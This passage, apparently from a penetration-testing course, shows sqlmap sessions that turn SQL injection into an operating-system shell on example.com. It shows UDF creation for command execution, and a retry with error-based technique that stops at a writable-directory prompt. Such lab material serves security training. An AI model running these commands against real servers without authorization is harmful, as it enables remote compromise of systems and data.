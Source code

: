 ```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --os-shell

        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.11#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 18:02:15 /2020-11-19/

[18:02:16] [INFO] resuming back-end DBMS 'mysql'
[18:02:16] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
[18:02:37] [INFO] the local file '/tmp/sqlmapmswx18kp12261/lib_mysqludf_sys8kj7u1jp.so' and the remote file './libslpjs.so' have the same size (8040 B)
[18:02:37] [INFO] creating UDF 'sys_exec' from the binary UDF file
[18:02:38] [INFO] creating UDF 'sys_eval' from the binary UDF file
[18:02:39] [INFO] going to use injected user-defined functions 'sys_eval' and 'sys_exec' for operating system command execution
[18:02:39] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la
do you want to retrieve the command standard output? [Y/n/a] a

[18:02:45] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
No output
```

We see that SQLMap defaulted to `UNION` technique to get an OS shell, but eventually failed to give us any output `No output`. So, as we already know we have multiple types of SQL injection vulnerabilities, let's try to specify another technique that has a better chance of giving us direct output, like the `Error-based SQL Injection`, which we can specify with `--technique=E`:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E

        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.11#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 18:05:59 /2020-11-19/

[18:05:59] [INFO] resuming back-end DBMS 'mysql'
[18:05:59] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4

do you want sqlmap to further try to provoke the full path disclosure? [Y/n] y

[18:06:07] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
```